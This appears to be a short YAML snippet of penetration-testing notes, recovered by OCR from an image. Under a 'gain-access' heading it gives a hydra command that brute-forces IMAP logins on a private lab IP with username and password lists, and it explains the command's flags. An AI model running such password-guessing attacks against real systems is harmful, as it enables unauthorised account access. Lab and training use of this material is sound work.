 ```yaml
---
functions:
  gain-access:
    - description: hydra
      code: |
        hydra -vV -L found_email_usernames -P passwords.txt imap://10.10.10.197:143 -t 7
        
        -l --> username
        -L --> username list
        -p --> password
        -P --> password list
        -t --> threads
---
```

